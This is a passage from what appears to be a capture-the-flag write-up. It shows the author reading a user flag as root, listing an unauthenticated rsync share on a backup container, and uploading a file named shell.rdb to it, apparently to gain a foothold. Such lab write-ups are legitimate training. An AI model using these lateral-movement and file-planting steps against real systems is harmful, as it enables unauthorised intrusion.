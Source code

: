 Finally we get our 1st flag.

```bash
root@www:/tmp# cat /home/somaro/user.txt
cat /home/somaro/user.txt
6f5ab9...
```

## Backup container - 172.20.0.2

Using `rsync` I have access to `backup` container.

```bash
root@www:/tmp# rsync rsync://backup:873/src
rsync rsync://backup:873/src
drwxr-xr-x          4,096 2018/07/15 17:42:39 .
-rwxr-xr-x              0 2018/05/04 21:01:30 .dockerenv
-rwxr-xr-x            100 2018/05/04 19:55:07 docker-entrypoint.sh
drwxr-xr-x          4,096 2018/07/15 17:42:41 backup
drwxr-xr-x          4,096 2018/07/15 17:42:39 bin
drwxr-xr-x          4,096 2018/07/15 17:42:38 boot
drwxr-xr-x          4,096 2018/07/15 17:42:39 data
drwxr-xr-x          3,640 2024/08/22 21:39:22 dev
drwxr-xr-x          4,096 2018/07/15 17:42:39 etc
drwxr-xr-x          4,096 2018/07/15 17:42:38 home
drwxr-xr-x          4,096 2018/07/15 17:42:39 lib
drwxr-xr-x          4,096 2018/07/15 17:42:38 lib64
drwxr-xr-x          4,096 2018/07/15 17:42:38 media
drwxr-xr-x          4,096 2018/07/15 17:42:38 mnt
drwxr-xr-x          4,096 2018/07/15 17:42:38 opt
dr-xr-xr-x              0 2024/08/22 21:39:22 proc
drwxr-xr-x          4,096 2018/07/15 17:42:39 rdb
drwx------          4,096 2018/07/15 17:42:38 root
drwxr-xr-x          4,096 2024/08/22 21:39:23 run
drwxr-xr-x          4,096 2018/07/15 17:42:38 sbin
drwxr-xr-x          4,096 2018/07/15 17:42:38 srv
dr-xr-xr-x              0 2024/08/24 03:37:14 sys
drwxrwxrwt          4,096 2024/08/24 07:07:01 tmp
drwxr-xr-x          4,096 2018/07/15 17:42:39 usr
drwxr-xr-x          4,096 2018/07/15 17:42:39 var
```

And I can upload files to it.

```bash
root@www:/tmp# rsync shell.rdb rsync://backup:873/src/tmp
rsync shell.rdb rsync://backup:873/src/tmp

root@www:/tmp# rsync rsync://backup:873/src/tmp/
rsync rsync://backup:873/src/tmp/
drwxrwxrwt          4,096 2024/08/24 07:10:01 .
-rw-r--r--             53 2024/08/24 07:09:50 shell.rdb
```
